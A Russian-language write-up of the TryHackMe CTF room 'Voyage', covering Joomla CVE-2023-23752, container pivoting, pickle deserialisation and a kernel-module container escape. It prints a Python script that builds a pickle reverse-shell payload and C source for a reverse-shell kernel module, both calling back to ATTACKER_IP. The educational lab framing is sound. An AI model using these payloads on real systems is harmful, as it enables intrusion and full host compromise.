







# Voyage

> Многоэтапная компрометация Joomla-инфраструктуры: утечка конфигурации через CVE-2023-23752, SSH-доступ в контейнер, pivoting во внутреннюю сеть, небезопасная десериализация `pickle` и выход на хост через `CAP_SYS_MODULE`.

## Общая информация

| Параметр | Значение |
| --- | --- |
| Платформа | TryHackMe |
| ОС | Ubuntu Linux |
| Категория | Web / Pivoting / Container Escape |
| Основные техники | CVE-2023-23752, SSH, SOCKS5 pivoting, Python pickle deserialization, reverse shell, CAP_SYS_MODULE, LKM |

## Краткое резюме

На внешнем периметре была обнаружена Joomla 4.2.7 и два SSH-сервиса. Эксплуатация `CVE-2023-23752` раскрыла конфигурационные данные, после чего полученный пароль подошёл к SSH на `2222/tcp` и предоставил `root` внутри первого Docker-контейнера. Из него была исследована внутренняя сеть и через динамический SOCKS5-туннель получен доступ ко второму контейнеру.

Внутреннее веб-приложение хранило сериализованный объект Python `pickle` в cookie. Подмена cookie вредоносным объектом привела к выполнению команды и `reverse shell` во втором контейнере. Наличие capability `CAP_SYS_MODULE` позволило загрузить подготовленный модуль ядра и получить `root` уже на хостовой системе.

## Разведка

### Первичное сканирование TCP-портов

На начальном этапе было выполнено сканирование всех TCP-портов целевой машины с помощью утилиты `nmap`:

```bash
nmap -n -A -p- TARGET_IP
```

```text
Nmap scan report for TARGET_IP
Host is up (0.00046s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0d:d6:2b:76:06:10:6f:c5:f2:8b:24:5c:4a:85:d4:17 (ECDSA)
|_  256 c4:84:73:92:6c:3f:ff:f3:87:fa:9f:0c:85:50:ba:ae (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.58 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ad:4a:7e:34:01:09:f8:68:d8:f7:dd:b8:57:d4:17:cf (RSA)
|   256 8d:cd:5e:60:35:c8:65:66:3a:c5:5c:2f:ac:62:93:80 (ECDSA)
|_  256 a9:d5:16:b1:5d:4a:4c:94:3f:fd:a9:68:5f:24:ee:79 (ED25519)
```

На основании результатов сканирования была получена следующая информация:

1. На целевой системе доступны следующие TCP-сервисы:

| PORT     | SERVICE      |
| -------- | ------------ |
| 22/tcp   | SSH          |
| 80/tcp   | HTTP/web app |
| 2222/tcp | SSH          |

2. Файл `robots.txt` содержит ряд потенциально интересных директорий веб-приложения:

`/joomla/administrator/`, `/administrator/`, `/api/`, `/bin/`, `/cache/`, `/cli/`, `/components/`, `/includes/`, `/installation/`, `/language/`, `/layouts/`, `/libraries/`, `/logs/`, `/modules/`, `/plugins/`.

3. В качестве веб-сервера используется `Apache/2.4.58`.

4. Целевая система работает под управлением Ubuntu Linux.

5. На портах `22/tcp` и `2222/tcp` доступны разные версии OpenSSH. Это может свидетельствовать о наличии двух SSH-сервисов с различной конфигурацией либо о пробросе одного из портов в изолированное окружение, например Docker-контейнер. С учетом условий задания второй вариант представлял особый интерес.

### Поиск директорий

Для дополнительного перечисления доступных директорий и файлов использовалась утилита `gobuster`:

```bash
gobuster dir -u http://TARGET_IP -w '/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt' -x php,js,html,py,log,txt,log,bak,old,conf,zip,sql
```

```text
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315]
/media                (Status: 301) [Size: 314]
/templates            (Status: 301) [Size: 318]
/index.php            (Status: 200) [Size: 8038]
/modules              (Status: 301) [Size: 316]
/plugins              (Status: 301) [Size: 316]
/includes             (Status: 301) [Size: 317]
/language             (Status: 301) [Size: 317]
/components           (Status: 301) [Size: 319]
/api                  (Status: 301) [Size: 312]
/cache                (Status: 301) [Size: 314]
/libraries            (Status: 403) [Size: 278]
/robots.txt           (Status: 200) [Size: 764]
/tmp                  (Status: 301) [Size: 312]
/layouts              (Status: 301) [Size: 316]
/administrator        (Status: 301) [Size: 322]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 6858]
/cli                  (Status: 301) [Size: 312]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
```

Среди обнаруженных ресурсов на данном этапе наибольший интерес представлял `/administrator`, содержащий форму аутентификации в административной панели.

## Анализ веб-приложения

Для анализа веб-приложения и HTTP-трафика использовался `Burp Suite`.

### Исследование главной страницы веб-приложения

На главной странице веб-приложения расположена форма аутентификации пользователей, а также ссылки на страницы восстановления логина и пароля.



Страницы восстановления учетных данных содержат форму для ввода email-адреса, на который должны быть отправлены дальнейшие инструкции.

Анализ исходного кода страницы позволил определить используемую CMS — `Joomla 4.2.7`.

Ресурс `/administrator` содержит отдельную форму аутентификации в административной панели. Анализ ее исходного кода не выявил дополнительной информации, представляющей интерес.

Обе формы аутентификации были протестированы на наличие SQL-инъекций с использованием нагрузки:

```text
1'OR 1=1--
```

Проверка выполнялась в нескольких вариантах: с исходным и URL-кодированным значением, а также путем непосредственного изменения параметров и HTTP-запросов через `Burp Suite`.

Признаков SQL-инъекции обнаружено не было.

### Поиск и эксплуатация уязвимости

CMS Joomla используемой версии потенциально уязвима к `CVE-2023-23752`. Уязвимость связана с некорректной проверкой прав доступа и позволяет неаутентифицированному пользователю обращаться к определенным endpoint'ам веб-сервисов.

Обращение к следующему endpoint:

```text
/api/index.php/v1/users?public=true
```

привело к раскрытию логина и email-адреса администратора.



Дополнительно endpoint:

```text
/api/index.php/v1/config/application?public=true
```

раскрыл пароль администратора.

Полученные учетные данные не подходили для протестированных форм аутентификации веб-приложения, поэтому дальнейшее исследование было продолжено с учетом других доступных сервисов.

## Исследование системы и внутренней сети

### Взаимодействие с первым контейнером

Полученный пароль оказался применим к SSH-сервису, доступному на порту `2222/tcp`. С его использованием был выполнен вход под учетной записью `root`:

```bash
ssh root@TARGET_IP -p 2222
```

Команды `whoami` и `id` подтвердили наличие максимальных привилегий в текущем окружении:

```bash
whoami
root

id
uid=0(root) gid=0(root) groups=0(root)
```

Однако получение UID `0` само по себе не означало наличие привилегий `root` непосредственно на хостовой системе.

При исследовании файловой системы в корневом каталоге был обнаружен файл `.dockerenv`:

```bash
root@f5eb774507f2:~# ls -lah /
total 64K
drwxr-xr-x   1 root root 4.0K Jun 25  2025 .
drwxr-xr-x   1 root root 4.0K Jun 25  2025 ..
-rwxr-xr-x   1 root root    0 Jun 25  2025 .dockerenv
...
```

Наличие `.dockerenv` указывает на то, что SSH-сервис предоставляет доступ не к основной системе, а к Docker-контейнеру.

В контейнере была обнаружена установленная утилита `nmap`, которая использовалась для исследования внутренней сети:

```bash
nmap 192.168.100.10/24
```

```text
Nmap scan report for TARGET_IP (192.168.100.1)
Host is up (0.000016s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
5000/tcp open  upnp
MAC Address: 02:42:4D:22:EE:0D (Unknown)

Nmap scan report for voyage_priv2.joomla-net (192.168.100.12)
Host is up (0.000018s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
5000/tcp open  upnp
MAC Address: 02:42:C0:A8:64:0C (Unknown)

Nmap scan report for f5eb774507f2 (192.168.100.10)
Host is up (0.000013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
```

Результаты сканирования показали наличие дополнительного сервиса на порту `5000/tcp`, а также второго контейнера с адресом `192.168.100.12`, на котором также доступен порт `5000/tcp`.

HTTP GET-запрос к:

```text
http://192.168.100.12:5000
```

с помощью `curl` возвращал HTML-код веб-страницы.

Для более удобного взаимодействия с внутренним веб-приложением через браузер был создан динамический SOCKS5-туннель через доступный SSH-сервис:

```bash
ssh -D 8314 root@TARGET_IP -p 2222
```

После этого `Firefox` был настроен на использование SOCKS5-прокси через локальный порт `8314`.

Обращение к `http://192.168.100.12:5000` через настроенный туннель открыло страницу с формой аутентификации.



После ввода имеющихся учетных данных вместо формы аутентификации отображалась страница с таблицей.



При анализе cookie было обнаружено нестандартное закодированное значение. После его декодирования средствами `Burp Suite` выяснилось, что содержимое представляет собой сериализованные данные Python `pickle`.



Использование `pickle` для обработки контролируемых пользователем данных создавало потенциальную возможность удаленного выполнения команд посредством формирования специально подготовленного сериализованного объекта.

### Получение доступа ко второму контейнеру и первого флага

Для формирования вредоносного `pickle`-объекта был создан следующий Python-скрипт:

```python
import pickle, os, binascii, sys

if len(sys.argv) != 3:
    print(f"Usage: {sys.argv[0]} LHOST LPORT")
    sys.exit(1)
cmd = f"bash -c 'bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1'"
print(binascii.hexlify(pickle.dumps(type('R', (), {'__reduce__':lambda s:(os.system, (cmd,))})())))
```

Payload был сформирован следующим образом:

```bash
scr.py ATTACKER_IP LPORT
```

На машине атакующего был запущен listener с помощью Netcat:

```bash
nc -lvnp LPORT
```

После этого значение cookie было заменено сформированным payload. При последующей перезагрузке страницы произошла десериализация объекта и было получено обратное подключение.



Полученный `reverse shell` предоставил доступ с привилегиями `root` ко второму контейнеру.



В файле:

```text
/root/user.txt
```

был обнаружен первый флаг.

### Выход из второго контейнера

После получения доступа ко второму контейнеру был выполнен анализ доступных Linux capabilities с помощью `capsh`:

```bash
capsh --print
```

```text
Current: cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap=ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Current IAB: !cap_dac_read_search,!cap_linux_immutable,!cap_net_broadcast,!cap_net_admin,!cap_ipc_lock,!cap_ipc_owner,!cap_sys_rawio,!cap_sys_ptrace,!cap_sys_pacct,!cap_sys_admin,!cap_sys_boot,!cap_sys_nice,!cap_sys_resource,!cap_sys_time,!cap_sys_tty_config,!cap_lease,!cap_audit_control,!cap_mac_override,!cap_mac_admin,!cap_syslog,!cap_wake_alarm,!cap_block_suspend,!cap_audit_read,!cap_perfmon,!cap_bpf,!cap_checkpoint_restore
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```

Среди доступных привилегий была обнаружена capability:

```text
cap_sys_module
```

Она позволяет загружать модули ядра и в данном случае предоставляла подходящий вектор для выхода из контейнеризированного окружения.

Для подготовки LKM-payload использовался код на основе следующего PoC:

```text
https://gist.github.com/Yuma-Tsushima07/39300bedee8f680d0780819594528dff
```

Были подготовлены файлы `c.c` и `Makefile`.

Содержимое `c.c`:

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/ATTACKER_IP/LPORT_2 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Содержимое `Makefile`:

```makefile
obj-m +=c.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

В исходных заметках отдельно указаны подготовка `c.c` и `Makefile`, а при передаче в контейнер — загрузка `c.ko` и `Makefile`. Состав файлов, фактически использованных при сборке модуля, дополнительно не зафиксирован; поэтому ниже сохранена только последовательность команд из исходного прохождения.

Для передачи подготовленных файлов на машине атакующего был запущен HTTP-сервер:

```bash
python3 -m http.server
```

Необходимые файлы были загружены в рабочее окружение с помощью `curl`:

```shell
curl http://ATTACKER_IP:8000/c.ko -o c.ko
```

```shell
curl http://ATTACKER_IP:8000/Makefile -o Makefile
```

После размещения необходимых файлов была выполнена сборка модуля:

```shell
make
```

На машине атакующего был запущен новый listener:

```shell
nc -lvnp LPORT_2
```

После этого подготовленный модуль ядра был загружен:

```shell
insmod c.ko
```

В результате выполнения команды модуль инициировал обратное подключение к машине атакующего, после чего был получен новый `reverse shell`.

Команда `id` показала:

```shell
id
uid=0(root) gid=0(root) groups=0(root)
```

При исследовании полученного окружения признаков контейнеризации или виртуализации обнаружено не было, что подтвердило успешный выход из контейнера и получение доступа к основной системе.

### Получение второго флага

После получения привилегированного доступа к основной системе второй флаг был обнаружен в файле:

```text
/root/root.txt
```

## Итог

В ходе выполнения CTF-задания **Voyage** была последовательно скомпрометирована многоуровневая инфраструктура, состоящая из внешнего веб-приложения, нескольких контейнеров и основной системы.

Первоначальной точкой входа стала уязвимость `CVE-2023-23752` в Joomla, позволившая получить конфиденциальные данные через доступные без аутентификации API-endpoint'ы. Полученный пароль обеспечил доступ к SSH-сервису на порту `2222/tcp`, который вел в первый Docker-контейнер.

Исследование внутренней сети из скомпрометированного контейнера позволило обнаружить дополнительное веб-приложение во втором контейнере. Для доступа к нему был настроен SOCKS5-туннель через SSH. Последующий анализ cookie выявил использование Python `pickle` для сериализации пользовательских данных. Формирование вредоносного сериализованного объекта позволило добиться удаленного выполнения команд и получить `reverse shell` с правами `root` во втором контейнере.

Финальным этапом атаки стал анализ Linux capabilities. Наличие `CAP_SYS_MODULE` позволило воспользоваться возможностью загрузки собственного модуля ядра. Специально подготовленный LKM инициировал обратное подключение уже из контекста основной системы, что привело к успешному выходу из контейнера и получению привилегий `root` на хосте.

Таким образом, полная цепочка компрометации выглядела следующим образом:

`Joomla 4.2.7` → `CVE-2023-23752` → утечка учетных данных → SSH-доступ → первый контейнер → исследование внутренней сети → SOCKS5 pivoting → внутреннее веб-приложение → небезопасная десериализация `pickle` → RCE → второй контейнер → `CAP_SYS_MODULE` → загрузка LKM → выход из контейнера → `root` на хостовой системе.

Данное задание хорошо демонстрирует, как несколько различных проблем безопасности могут последовательно дополнять друг друга. Уязвимость веб-приложения сама по себе предоставила только конфиденциальные данные, однако их дальнейшее использование открыло доступ во внутреннюю инфраструктуру. Небезопасная десериализация обеспечила следующий этап компрометации, а избыточные capabilities контейнера позволили окончательно нарушить границу изоляции и получить полный контроль над системой.

## Ключевые выводы

- Утечка конфигурации из веб-приложения может стать точкой входа в совершенно другой сервис, если учётные данные переиспользуются.
- Динамический SSH-туннель удобен для исследования внутренних веб-сервисов без прямой маршрутизации к ним.
- Десериализация недоверенных данных через Python `pickle` эквивалентна потенциальному выполнению произвольного кода.
- Capability `CAP_SYS_MODULE` критически опасна внутри контейнера, поскольку позволяет загружать код в ядро хоста и нарушать границу изоляции.

## Использованные инструменты

| Инструмент | Использование |
| --- | --- |
| `Nmap` | Внешнее и внутреннее сетевое сканирование |
| `Gobuster` | Перечисление веб-ресурсов |
| `Burp Suite` | Анализ HTTP-трафика и cookie |
| `SSH` | Первоначальный доступ и SOCKS5-туннель |
| `Netcat` | Приём reverse shell |
| `capsh` | Проверка Linux capabilities |
| `curl` | Проверка внутренних HTTP-сервисов и передача файлов |

## Дополнительные материалы

- `CVE-2023-23752` — обход контроля доступа к Joomla Web Services API.
- PoC для LKM: https://gist.github.com/Yuma-Tsushima07/39300bedee8f680d0780819594528dff

## Примечание

> Материал подготовлен в образовательных целях. Все действия выполнялись в контролируемой лабораторной среде TryHackMe.
